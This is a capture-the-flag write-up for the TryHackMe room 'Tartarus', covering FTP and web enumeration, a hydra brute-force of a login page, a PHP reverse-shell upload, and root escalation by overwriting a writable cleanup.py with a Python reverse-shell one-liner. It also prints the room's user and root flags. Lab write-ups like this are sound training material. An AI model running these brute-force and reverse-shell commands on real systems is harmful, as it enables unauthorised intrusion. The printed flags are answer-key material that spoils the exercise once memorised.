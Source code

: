# Tartarus

<img src="screenshots/1.jpg">

Room: Tartarus

Link: https://tryhackme.com/room/tartaraus

TARGET IP: 10.10.13.146

### SCANNING

  Nmap scan results:
    
    21/tcp open  ftp     vsftpd 3.0.3
    22/tcp open  ssh     OpenSSH 7.2p2 
    80/tcp open  http    Apache httpd 2.4.18

### ENUMERATION

 ftp anonymous login is allowed and after logging in we go to ... and then again ... directory
 <img src="screenshots/ftplogin.png">
  
  There we see a txt file and downloading it on our machine we get /sUp3r-s3cr3t directory. We will have a look at this directory later first we will further enumerate the machine.
  
  <img src="screenshots/ftpdirectory.png">
  
  <img src="screenshots/yougot.png">

 
 Checking the robots.txt file(a random guess) 
  
  <img src="screenshots/admin.png">
 
Entering into /admin-dir

  <img src="screenshots/admindir.png">
  
  Downloading the files using :
  
    wget http://10.10.13.146/admin-dir/credentials.txt
    wget http://10.10.13.146/admin-dir/userid
  
  Now entering into the super secret directory on the web server we see a login page.
  
  <img src="screenshots/login.png">
  
 Since, we have the userid and credentials.txt file. We can try and bruteforce the login page via hydra.
   
    hydra -L userid -P credentials.txt 10.10.127.236 http-post-form "/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^:Incorrect"

   <img src="screenshots/hydra.png">

    After logging in we get into home.php where we can upload files. Uploading the script for reverse shell here. And starting the listener
    on the machine.

     <img src="screenshots/upload.png">
     
  Uploading the reverse shell php script on the page. 
  
    Download the script from here: http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz

We need to find the uploads directory to run our script for that we run the directory scan. 
So we find the images directory with dirb and here is the upload folder open it and run the script.
Now we got our reverse shell.

<img src="screenshots/revshell.png">

  Going to home/d4rckh.  
  We get the user flag! 0f7dbb2243e692e3ad222bc4eff8521f
 
 ### PrivEsc
 Now let's hunt for the root flag. Looking at the permissions of files cleanup.py we find it has write permissions too.
 Lets modify it for privileged reverse shell
     
    printf 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("Your THM IP",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);' > cleanup.py

    Also setup a listener port nc -lvnp 5555
 
 
 And finally we have our root shell  
  
  <img src="screenshots/rootshell.png">

    Root flag! 
    7e055812184a5fa5109d5db5c7eda7cd

    
